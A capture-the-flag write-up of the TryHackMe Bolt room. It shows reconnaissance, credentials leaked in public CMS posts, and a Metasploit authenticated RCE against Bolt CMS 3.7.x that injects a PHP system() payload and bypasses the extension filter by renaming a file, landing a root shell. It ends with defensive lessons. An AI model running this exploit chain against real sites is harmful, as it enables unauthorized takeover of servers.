


# Writeup: From Leaked Credentials to Root — Exploiting an Authenticated RCE in Bolt CMS

**NullSecure | FROM NULL TO ROOT**

**Category:** Web Exploitation → Authenticated RCE → Direct Root Access
**Difficulty:** Beginner
**Tools Used:** `threader3000`, `nmap`, `searchsploit`, Metasploit Framework

---

## 1. Overview

This writeup walks through a full compromise of the [Bolt](https://tryhackme.com/room/bolt) room on TryHackMe — starting with reconnaissance, moving into content enumeration that surfaces credentials leaked inside public blog posts, exploiting a known authenticated Remote Code Execution (RCE) vulnerability via Metasploit, and landing directly on a root shell.

> **Note:** Replace `<ip>` with the target's IP address, and `<tun0 ip>` with your attacking machine's VPN interface IP.

---

## 2. Reconnaissance

### 2.1 Quick Port Sweep with Threader3000

```bash
# pip install threader3000 --break-system-packages
threader3000
```

### 2.2 Service Enumeration with Nmap

```bash
nmap -sV -sC -p22,80,8000 <ip>
```

**Expected results:**

| Port | Service | Description |
|------|---------|-------------|
| 22/tcp | SSH | Remote secure login service |
| 80/tcp | HTTP | Stock Apache default page — a decoy, nothing of value |
| 8000/tcp | HTTP | The real attack surface: Bolt CMS |

Since port 80 only serves the Apache default page, port 8000 became the focus of the next phase.

---

## 3. Content Discovery — Enumerating the Bolt CMS Blog

### 3.1 Browsing the Public Blog

Visiting `http://<ip>:8000` lands on the Bolt CMS homepage, which hosts blog posts written by a user named "Jake," acting as Admin. For this room, reading through the posts — rather than brute-forcing directories — is what actually surfaces the key findings:


*The homepage post discloses the username as `bolt`.*

### 3.2 Finding the Leaked Password

A second post, titled **"Message for IT Department,"** was intended as an internal note but is fully public. The admin left the password in plaintext, assuming this was a private channel:


*A post addressed to IT discloses the password `boltadmin123`.*

**Key findings:**

| Finding | Significance |
|------|---------------|
| Username: `bolt` | CMS login credential, found on the homepage post |
| Password: `boltadmin123` | CMS login credential, found on the IT-department post |

> **Why did this work?**
> This isn't an application bug — it's information disclosure caused by human error: real credentials stored inside public-facing content instead of a proper secrets channel. The admin assumed there was a "hidden" area of the CMS; without explicit access controls, every published post is fully public.

---

## 4. Exploitation

### 4.1 Logging In and Fingerprinting the Version

Bolt CMS's default login page sits at `/bolt`:

```
http://<ip>:8000/bolt/login
```

Logging in with `bolt : boltadmin123` reveals the version in the dashboard's bottom-left corner:

```
Bolt CMS 3.7.1
```

### 4.2 Finding a Known Vulnerability

```bash
searchsploit bolt
```

```
Bolt CMS 3.7.0 - Authenticated Remote Code Execution   | php/webapps/48296.py
```

The same vulnerability ships as a ready-made Metasploit module:

```bash
msfconsole -q
msf6 > search bolt
```

```
#  Name                                          Disclosure Date  Rank       Description
0  exploit/unix/webapp/bolt_authenticated_rce   2020-05-07        excellent  Bolt CMS 3.7.0 - Authenticated Remote Code Execution
```

> **Why did this work?**
> The server runs a version with a documented, public vulnerability (EDB-ID **48296**, later assigned **CVE-2025-34086**). An unpatched CMS with a known CVE is directly exploitable with off-the-shelf tooling — no custom exploit development required.

### 4.3 Running the Exploit

```bash
msf6 > use exploit/unix/webapp/bolt_authenticated_rce
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set RHOSTS <ip>
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set RPORT 8000
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set LHOST <tun0 ip>
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set USERNAME bolt
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set PASSWORD boltadmin123
msf6 exploit(unix/webapp/bolt_authenticated_rce) > run
```

> **What the module does, mechanically:**
> 1. Authenticates and auto-verifies the target is vulnerable.
> 2. Edits the "username" field on `/bolt/profile` to a PHP payload — `system($_GET["..."])` — since that field isn't validated strictly enough before being stored server-side.
> 3. Pulls session tokens from `/async/browse/cache/.sessions`.
> 4. Uses those tokens to **rename** an existing file to a `.php` extension via `/async/folder/rename` — the extension blacklist is enforced on upload, but not on rename, so this is a classic filter-bypass.
> 5. Executes commands through the renamed file: `/files/<filename>.php?<param>=<command>`.
> 6. Cleans up: deletes temp files and reverts the profile username.

---

## 5. Post-Exploitation — Grabbing the Flag

```bash
whoami
# root

find / -name flag.txt 2>/dev/null
# /home/flag.txt

cat /home/flag.txt
```

---

## 6. Privilege Escalation

Not required for this room — the exploit lands directly on a `root` shell.

> **Why no privesc here?** In a real deployment, the Bolt CMS process would run under a restricted service account (e.g. `www-data`), and this step would normally be necessary. Running the process as `root` on this box is a deliberate simplification by the room author to keep the difficulty at "Easy" without requiring a separate escalation chain.

---

## 7. Conclusion & Lessons Learned

| Root Cause | Defensive Recommendation |
|------------|---------------------------|
| Credentials published inside public CMS content | Never store secrets in CMS content; use a dedicated password manager or secrets vault |
| Outdated, unpatched Bolt CMS version (3.7.x) | Schedule regular CMS updates and subscribe to vendor security advisories |
| No validation on the `/bolt/profile` username field | Enforce input validation and context-encoding on every user-supplied field, even "cosmetic" ones |
| Extension filtering enforced on upload only, not on rename | Apply a file-type allow-list across every code path that can produce a new filename (upload / rename / move / copy) |
| Application process runs as `root` | Run the web service under a low-privilege dedicated account and apply least privilege |
| No monitoring/alerting on `/async/*` or `/bolt/profile` | Enable logging and WAF rules on admin-panel routes and async endpoints |

---

## 8. Attack Chain Summary

```
Nmap/Threader3000 (Recon) → 22, 80, 8000
        │
        ▼
Bolt CMS Blog Posts (Content Discovery) → Leaked Creds: bolt:boltadmin123
        │
        ▼
/bolt Login → Version Fingerprint (Bolt CMS 3.7.1)
        │
        ▼
Searchsploit/Metasploit → EDB-48296 (Authenticated RCE)
        │
        ▼
Profile Field Injection + Rename Filter Bypass (.php) → RCE
        │
        ▼
Direct Shell → root
        │
        ▼
flag.txt captured
```

---

*This report was prepared within a training/CTF lab environment for educational purposes.*

**A1GCH ⚔ NullSecure**
